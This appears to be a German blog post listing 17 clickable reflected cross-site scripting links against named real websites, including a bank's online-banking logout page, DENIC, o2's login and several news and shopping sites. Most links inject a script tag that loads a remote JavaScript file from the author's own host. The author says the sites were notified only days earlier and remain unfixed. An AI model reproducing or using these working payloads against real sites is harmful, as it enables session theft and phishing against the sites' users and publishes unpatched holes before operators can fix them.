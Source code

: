 <html><body><p>Ich fürchte, ich habe zu lange geschwiegen und zu wenig getan (naja, getan hab ich schon einiges, nur nix veröffentlicht...).<br>
Auf jeden Fall hab ich von ha.ckers.org die s.js geklaut und etwas angepasst, dadurch kann man den ganzen Sicherheitsfutzies jetzt noch kräftiger eins auswischen. Aber klickt selbst:<br>
<br>
<a href="http://www.bvr.de/public.nsf/search.html?SearchView&amp;SearchOrder=1&amp;main=500&amp;SearchWV=TRUE&amp;query=%28*%22%3E%3Ch1%3Ejetzt%20weiss%20ich%20warum%20es%20soviel%20phishing%20gibt%3C/h1%3E*%29&amp;qorig=%22%3E%3Ch1%3Ejetzt%20weiss%20ich%2C%20warum%20es%20soviel%20phishing%20gibt%3C/h1%3E&amp;so=3&amp;start=1&amp;count=50" target="_blank">XSS in der Suche von bvr.de</a><br>
<a href="http://www.transtec.de/D/D/tools/search.html?q=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;go=." target="_blank">XSS in der Suche von transtec.de</a><br>
<a href="http://pcgratis.de/suche.php?search=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;x=0&amp;y=0" target="_blank">XSS in der Suche von pcgratis.de</a><br>
<a href="http://www.frag-mutti.de/search.php?search=%22%3E%3Cscript%20src=http://files.die-welt.net/s.js%3E&amp;submit=B" target="_blank">XSS in der Suche von frag-mutti.de</a><br>
<a href="http://www.frag-vati.de/search.php?search=%22%3E%3Cscript%20src=http://files.die-welt.net/s.js%3E&amp;submit=B" target="_blank">XSS in der Suche von frag-vati.de</a><br>
<a href="http://www.friendscout24.de/?username=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;password=&amp;md5hash=dooo" target="_blank">XSS im Login von friendscout24.de</a><br>
<a href="http://www.jobscout24.de/bewerber/LoginFailed.asp?err=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3" target="_blank">XSS in Login-Error von jobscout24.de</a><br>
<a href="http://www.denic.de/de/special/results.jsp?query=%22%3E%22%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;querypostfix=&amp;lang=de&amp;x=11&amp;y=13&amp;hpp=10" target="_blank">XSS in der Suche von denic.de</a><br>
<a href="https://login.o2online.de/loginRegistration/loginAction.do?_flowId=startLogin&amp;loginName=%22%3E%3Ch1%3ESicher?%3C/h1%3E" target="_blank">XSS im Login von o2online.de (HTTPS!)</a><br>
<a href="http://haerting.de/de/suche/index.php?we_lv_search_0=%3Cscript%20src=http://files.die-welt.net/s.js%3E" target="_blank">XSS in der Suche von haerting.de</a><br>
<a href="http://www.starkalender.de/sk/suche/index.html?daten%5Bsuche%5D=%3Cscript%20src=http://files.die-welt.net/s.js%3E&amp;imageField.x=0&amp;imageField.y=0" target="_blank">XSS in der Suche von starkalender.de</a><br>
<a href="http://www.titus.de/screen.phtml?screen=ws_extendedsearch&amp;Query=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;submitBut_x=0&amp;submitBut_y=0&amp;submitBut=1" target="_blank">XSS in der Suche von titus.de</a><br>
<a href="http://die-patrone.de/index.php?search_word_2=%27%3E%3Cimg%20src=http://www.billigdrucker.de/cImages/B0000AT4Z7.03.MZZZZZZZ.jpg%3E&amp;x=0&amp;y=0" target="_blank">XSS in der Suche von die-patrone.de (die ersetzen alle "-" mit " " aber lassen sonst alles zu!?)</a><br>
<a href="http://www.my-sad.com/sad/search.php?criteria=%3Cscript%20src=http://files.die-welt.net/s.js%3E" target="_blank">XSS in der Suche von my-sad.de</a><br>
<a href="http://www.faz.net/IN/INtemplates/faznet/pagenotfound.asp?err=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E" target="_blank">XSS im 404-Error von faz.net</a><br>
<a href="https://bankingportal.sskduesseldorf.de/banking/FeLogout?AUFTRITT=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E" target="_blank">XSS im Logout-Screen von sskduesseldorf.de</a><br>
<a href="http://www.mdr.de/newsletter/login.html?f_username=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;f_action=login" target="_blank">XSS im Login von mdr.de</a><br>
<br>
Macht also 17 Links, unter anderem Zeitungen, OnlineShops, Fernsehsender und <strong>MEINE BANK</strong> OMFG!!!elf<br>
Diese habe ich übrigens am Montag um 11:30 angemailt, leider bis dato keine Rückmeldung und kein Fix. Schonnirgendwie traurig das Ganze.<br>
Aber am härtesten finde ich die zwei Links in der Mitte, DENIC und o2, beides Firmen die einen Teil ihres Vermögens im Internet machen, und dann so was? Gibt es noch echte Sicherheit auf der Welt oder leben wir alle in einer Matrix, die uns SSL-Schlösser vortäuscht und unsere Daten aus späht?</p></body></html>